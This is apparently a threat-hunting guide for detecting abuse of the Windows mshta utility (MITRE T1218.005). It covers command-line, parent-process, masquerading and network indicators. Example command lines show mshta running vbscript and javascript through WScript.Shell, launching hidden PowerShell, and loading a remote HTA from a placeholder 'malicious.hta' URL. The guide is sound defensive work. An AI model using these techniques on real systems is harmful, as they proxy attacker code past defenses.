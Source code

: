 ```yaml
---
title: mshta Hunt
category: Defense Evasion
tags: [TECHNIQUE T1218.005, System Binary Proxy Execution, HTA, windows]
---
```

Mshta is attractive to adversaries both in the early and latter stages of an infection because it enables them to proxy the execution of arbitrary code through a trusted utility.
# Process and command-line monitoring
## Monitor process execution and command-line parameters for suspicious use of Mshta
Look for Mshta being executed with command lines containing protocol handlers like javascript, vbscript, about, etc.

**Example:**

```mshta vbscript:CreateObject("WScript.Shell").Run("notepad.exe")(window.close)```

Collect parent-child process relationships and identify any suspicious process lineage patterns involving Mshta.

**Example:**

Parent process: winword.exe

Child process: mshta.exe

## Monitor process metadata
Internal process name: mshta.exe
	Apparent filename: calc.exe

## File monitoring and network connections
Monitor file activity for the presence of Mshta-related files, such as HTA files (ending with .hta extension).
Look for Mshta executing remotely hosted HTA content via URIs or UNC paths.
	Command line: mshta http://example.com/malicious.hta

## Suspicious process ancestry
For example, an adversary conducting a phishing attack might embed a macro in a Microsoft Word document that executes a malicious HTA file.

Parent process: winword.exe
Child process: mshta.exe

## Mshta masquerading
```C:\Test\notepad.exe "javascript:a=new ActiveXObject("WScript.Shell");a.Run("powershell.``` 

```exe%20-nop%20-Command%20Write-Host%20f83a289e-8218-459c-9ddb-ccd3b72c732a;%20Start-Sleep%20-Seconds%202;%20exit",0,true);close();"```

## Network connections and HTA content
File extension: .pdf
MIME type: application/hta

## False positive mitigation
Fine-tune detection logic to account for legitimate and expected use of Mshta in your environment.

# Reference
https://redcanary.com/threat-detection-report/techniques/mshta/#:~:text=Suspicious%20process%20ancestry,executes%20a%20malicious%20HTA%20file